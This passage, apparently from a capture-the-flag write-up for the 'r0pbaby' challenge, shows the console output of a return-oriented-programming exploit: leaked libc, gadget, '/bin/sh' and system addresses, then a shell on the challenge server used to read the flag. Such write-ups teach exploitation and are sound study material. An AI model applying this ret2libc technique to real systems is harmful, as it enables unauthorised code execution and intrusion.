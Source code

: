 Which gives us:

>```bash
>[+] Opening connection to r0pbaby_542ee6516410709a1421141501f03760.quals.shallweplayaga.me on port 10436: Done
>[+] libc base: [7f1a3ba349b0]
>[+] RDI gadget addr: [7f1a3b2dc5ca]
>[+] "/bin/sh" addr: [7f1a3b3c6cdb]
>[+] system addr: [7f1a3b290640]
>[*] Switching to interactive mode
>$ whoami
>r0pbaby
>$ ls -la /home/r0pbaby
>total 24
>drwxr-x--- 2 root r0pbaby  4096 May 15 16:05 .
>drwxr-xr-x 4 root root     4096 May 15 10:53 ..
>-rw-r--r-- 1 root r0pbaby    66 May 15 10:54 flag
>-rwxr-xr-x 1 root root    10240 May 15 16:05 r0pbaby
>$ cat /home/r0pbaby/flag
>The flag is: W3lcome TO THE BIG L3agu3s kiddo, wasn't your first?
>```